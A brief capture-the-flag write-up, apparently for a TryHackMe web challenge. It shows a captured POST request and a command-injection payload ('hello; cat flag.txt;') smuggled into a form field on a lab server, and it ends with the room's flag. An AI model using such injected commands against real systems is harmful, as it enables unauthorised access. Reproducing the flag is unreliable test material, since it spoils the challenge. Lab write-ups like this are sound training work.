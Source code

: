 ## Dark Encryptor

> A web app. A POST form. A backend that trusted its users too much.

![Challenge](https://github.com/user-attachments/assets/0b7f102b-c50a-4c42-ba2a-8c0410ef03d4)


---

### Look around

After navigating to the target web server hosted at ```http://10.10.132.71:5000```, I opened Burp Suite and enabled Intercept to capture the form submission request. Here's what I saw:

![Webapp page](https://github.com/user-attachments/assets/01e15f07-adb3-41de-b05c-87ac0734ca7c)


```bash
POST / HTTP/1.1
Host: 10.10.132.71:5000
Content-Length: 44
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://10.10.132.71:5000
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://10.10.132.71:5000/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

text_input=hello%0D%0A&recipient=NullPhantom

```

---

### Testing for Injection

To test the waters, I injected a command using the ; delimiter to break the command chain and run my own.

```bash
text_input=hello; cat flag.txt;&recipient=NullPhantom
```

![BP Command](https://github.com/user-attachments/assets/7f20575d-3c0f-41f5-8c18-f9092a0a1133)

---

### Response
The server responded successfully and embedded the result directly in the HTML response. Nestled in the page was a PGP message block — and right beneath it, a plaintext flag!

![response from BP](https://github.com/user-attachments/assets/c48dacbc-d854-4dfd-a41c-8ad8885916dc)

THM{pgp_cant_stop_me}

---
